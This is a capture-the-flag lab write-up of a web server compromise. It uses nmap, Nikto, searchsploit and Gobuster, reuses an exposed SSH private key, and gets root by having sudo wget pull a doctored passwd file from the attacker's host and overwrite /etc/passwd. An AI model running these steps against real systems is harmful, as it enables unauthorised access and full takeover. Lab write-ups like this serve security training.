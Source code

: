 #Linux #Wget #

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.207.235
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 22/tcp ssh
* 80/tcp http

![image](https://user-images.githubusercontent.com/99097743/171080626-c28a88e2-45bf-4be1-a7f1-6d927ee7b2b8.png)


Interesting info: A person named Jessie is mentioned in the website source code:

![image](https://user-images.githubusercontent.com/99097743/171075119-d4d404da-8220-4061-ad97-5bd0af1dd0eb.png)

Let's try **Nikto** for vulnerability scanning. 

Nikto is an open source web server and web application scanner. Nikto can perform comprehensive tests against web servers for multiple security threats, including over 6700 potentially dangerous files/programs. Nikto can also perform checks for outdated web servers software, and version-specific problems. Here are some of the commonly used commands:

![image](https://user-images.githubusercontent.com/99097743/171077871-a03baaac-6541-4648-b22a-aa9856cbcfa1.png)

Nikto results reveal that the Apache server is outdated -v 2.4.18 

![image](https://user-images.githubusercontent.com/99097743/171078750-8a26be16-d1db-492d-bf75-f2c04eb39023.png)

A **searchsploit** analysis confirms an existing vulnerability on the Apache server. 

![image](https://user-images.githubusercontent.com/99097743/171079027-f7f5dd4c-4afe-4b23-a06c-72b79222cb65.png)

Details of the CARPE (DIEM): CVE-2019-0211 Apache Root Privilege Escalation are summarized in the following link:

https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html

**Gobuster** search suggests a hidden directory **/sitemap** (Status 301)

![image](https://user-images.githubusercontent.com/99097743/171080870-11321b68-cb53-4930-8421-0a595b952689.png)

A further **Gobuster** search on `http://10.10.207.235/sitemap` suggests a hidden **/.ssh** directory hosting a private key! 

![image](https://user-images.githubusercontent.com/99097743/171082095-e325cb85-02a7-4028-a57d-dc2dbafa9d4d.png)

What we need to do now are:

1) Change file permissions for the id_rsa as `chmod 600 jessie_id_rsa`
2) Login ssh using the private key: `ssh -i path/to/key_file username@remote_host`

We can assume that the private keys belongs to Jessie -- This name was mentioned in a comment line in website source code (see abobe)

![image](https://user-images.githubusercontent.com/99097743/171085363-81619d9f-110a-4f47-b960-14ecb9ad9df5.png)

We now have the user flag captured, let's explore the vulnerabilities for privilege escalation, let's try `sudo -l` to see the allowed commands

![image](https://user-images.githubusercontent.com/99097743/171085848-4e010d8f-f21b-457f-be9c-ed7303f629d3.png)

It seems that we can use GTFOBins Wget vulnerability as explained here: https://gtfobins.github.io/gtfobins/wget/

![image](https://user-images.githubusercontent.com/99097743/171088818-d8ec1a56-82cc-4aaf-a0c9-ee43117274e3.png)

Here are steps that can be followed:

1) Copy `etc/passwd` in the local host, generate a password for the root account, and include it as password hash in passwd:

![image](https://user-images.githubusercontent.com/99097743/171087622-38672abd-b16e-44e2-a833-1db586e0030a.png)

![image](https://user-images.githubusercontent.com/99097743/171089509-76761a52-80ba-430a-b7df-d7d6b6e8d64a.png)


2) Open an HTTP server on the local host: `sudo python3 -m http.server 80`

3) Transfer the passwd to target machine: `sudo wget http://10.18.123.93/passwd -O /etc/passwd`

![image](https://user-images.githubusercontent.com/99097743/171089684-54d7a62a-9d2a-42b3-b205-8b1655981162.png)

4) Elevate to root: `su root` -- Password above

